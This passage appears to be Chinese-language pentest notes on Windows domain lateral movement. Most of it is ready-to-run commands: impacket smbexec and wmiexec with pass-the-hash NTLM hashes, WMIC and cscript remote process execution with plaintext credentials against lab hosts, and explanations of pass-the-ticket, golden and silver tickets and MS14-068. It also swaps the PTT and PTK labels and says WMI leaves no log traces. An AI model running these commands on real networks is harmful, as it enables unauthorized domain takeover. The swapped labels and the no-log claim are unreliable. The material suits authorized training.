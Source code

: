 smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32

smbexec -hashes :ccef208c6485269c20db2cad21734fe7god/administrator@192.168.3.21

###### 域横向移动 WMI 服务利用-cscript,wmiexec,wmic

WMI(Windows Management Instrumentation) 是通过135端口进行利用，支持用户名明文或者 hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

**\#自带 WMIC 明文传递 无回显**

wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c 

ipconfig >C:\1.txt"

**\#自带 cscript 明文传递 有回显**

cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345

**\#套件 impacket wmiexec 明文或 hash 传递 有回显 exe 版本**

wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"

wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"

wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"

wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"

[![oTfx6P.jpg](https://s4.ax1x.com/2021/12/11/oTfx6P.jpg)](https://imgtu.com/i/oTfx6P)

#### PTH&PTK&PTT 哈希票据传递

PTH就是pass the hash，哈希传递，利用NT hash，NTLM hash

PTK就是pass the ticket，票据传递，黄金票据和白银票据，增强型金票，委派

PTT就是pass the key，利用ekeys aes256进行渗透测试

------------------------------------------------------------------------------------------------------------------------------------------

PTH 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过 LM Hash 和 NTLM Hash

访问远程主机或服务，而不用提供明文密码。

如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可

以攻击成功。对于 8.1/2012r2，安装补丁 kb2871997 的 Win 7/2008r2/8/2012 等，可以使用 AES keys

代替 NT hash 来实现 ptk 攻击

------

这里pth中，如上：

这里ptk中，有如下几种攻击方式：

MS14-068就是提升到域控权限；黄金票据就是拿下域控后可以对域内主机服务访问，优点是域内全部控制，缺点是必须要拿下域控；白银票据是针对某台主机的指定服务，优点是不用和kdc通信，缺点是只能访问特定的几个服务；此外还有增强型金票；委派

总结：**KB2871997 补丁后的影响pth：没打补丁用户都可以连接，打了补丁只能 administrator 连接**

ptk：打了补丁才能用户都可以连接，采用 aes256 连接

[![oTTRYD.png](https://s4.ax1x.com/2021/12/11/oTTRYD.png)](https://imgtu.com/i/oTTRYD)
